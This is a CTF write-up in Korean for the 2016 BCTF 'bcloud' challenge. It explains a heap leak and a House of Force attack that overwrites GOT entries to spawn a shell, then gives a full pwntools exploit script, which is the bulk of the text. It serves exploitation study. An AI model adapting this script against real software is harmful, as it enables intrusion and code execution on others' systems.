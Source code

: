 ```yaml
---
title: "2016 BCTF bcloud"
date: 2020-3-6
ctf: BCTF
layout: post
published : false
---
```


처음에 name 입력받을 때 꽉채워버리면 heap주소가 붙어있어서 leak해줄 수 있고 바로 뒤에 orgs를 꽉채우고 host에 0xffffffff를 보내면 topchunk를 덮어버릴 수 있다.`house of force` 취약점으로 atoi@got를 printf@plt로 덮어서 fsb로 libc leak 해주고 또 printf를 system함수로 덮고 인자로 /bin/sh\x00 넘기면 쉘 딸 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./bcloud')
p = process('./bcloud')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
content = 0x0804B0A0
orgs = 0x0804B0C8
names = 0x0804B0CC
idk = 0x804B0E0
note = 0x0804B120
hosts = 0x0804B148

def create(size,content,mode='1'):
	sla('>>','1')
	sla(':\n',str(size))
	if mode == '0':
		sa(':\n',content)

def edit(idx,content):
	sla('>>','3')
	sla(':\n',str(idx))
	sla(':\n',content)

def delete(idx):
	sla('>>','4')
	sla(':\n',str(idx))

def syn():
	sla('>>','5')

def quit():
	sla('>>','6')

sa('Input your name:\n','A'*64) # names
p.recvuntil('A'*64)
heap = u32(p.recv(4))
log.info('heap leak : {}'.format(hex(heap)))
topchunk = heap + 0xd8

sa('Org:\n','B'*64)
sla('Host:\n',p32(0xffffffff))

hof = e.got['atoi'] - topchunk - 0xc
create(hof,'AAAA')
create(8,'A'*4+p32(e.plt['printf']),mode='0') # atoi@got -> printf@plt

p.sendlineafter('>>','%p.%p.%p!%p.%p')
p.recvuntil('!')
stdout = int(p.recv(10),16) # _IO_2_1_stdout_
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
log.info('libc_base : {}'.format(hex(libc_base)))

p.sendlineafter('>>','333')
sla(':\n','1')
sla(':\n','AAAA'+p32(libc_base + libc.symbols['system']))
p.sendlineafter('>>','/bin/sh\x00')

p.interactive()
```

<br />

## Reference

https://www.lazenca.net/display/TEC/The+House+of+Force

https://github.com/shellphish/how2heap